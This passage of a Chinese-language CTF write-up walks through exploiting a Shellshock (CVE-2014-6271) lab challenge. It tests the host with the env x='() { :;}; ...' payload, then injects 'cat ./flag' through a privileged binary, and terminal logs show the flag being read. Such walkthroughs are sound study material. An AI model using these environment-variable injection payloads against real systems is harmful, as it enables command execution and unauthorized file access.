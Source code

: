 if (flags & SEVAL_ONECMD)
                   break;
```

宏 SEVAL_FUNCDEF  SEVAL_ONECMD 都是为了用来做边界检查的

这个flags 就是那个查询的环境变量数据  2333

然后上面有 利用方式 ，后面自己搞一个



目前就是明确了：

这个pwn 查看了 环境的异常性

名字叫shellshock 提示了破壳利用

故先验证漏洞存在性





```shell
Last login: Sat Aug  4 00:48:34 2018 from 123.21.33.191
shellshock@ubuntu:~$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
this is a test
shellshock@ubuntu:~$ 
```

存在

那就可以利用这个漏洞来 进行 flag获取了

构造 利用代码



env x='() { :;};     echo vulnerable'       bash -c "echo this is a test"  

分为两步

首先希望是 cat flag 

那么   echo vulnerable   --->   bash -c "cat  ./flag"

然后 提升当前进程的权限  

那么  bash -c “echo this is a test ”   -----> ./shellshock

多么尴尬 不是这个漏洞   

```
Last login: Sat Aug  4 00:48:34 2018 from 123.21.33.191
shellshock@ubuntu:~$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
this is a test
shellshock@ubuntu:~$ env x='(){ :;}; bash -c "cat ./flag"' ./shellshock
shock_me
shellshock@ubuntu:~$ env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash-c "echo test"
env: ‘bash-c’: No such file or directory
shellshock@ubuntu:~$ env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"
test
shellshock@ubuntu:~$ 

```
